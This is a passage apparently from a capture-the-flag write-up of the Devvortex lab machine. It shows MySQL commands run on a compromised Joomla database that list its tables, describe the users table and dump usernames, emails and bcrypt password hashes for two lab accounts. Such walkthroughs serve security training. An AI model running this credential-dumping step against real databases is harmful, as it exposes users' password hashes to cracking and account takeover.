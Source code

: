 ```shell
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
```

"sd4fg_users" table looks interesting.

```shell
mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.00 sec)

mysql> select name,username,email,password from sd4fg_users;
select name,username,email,password from sd4fg_users;
+------------+----------+---------------------+--------------------------------------------------------------+
| name       | username | email               | password                                                     |
+------------+----------+---------------------+--------------------------------------------------------------+
| lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+---------------------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
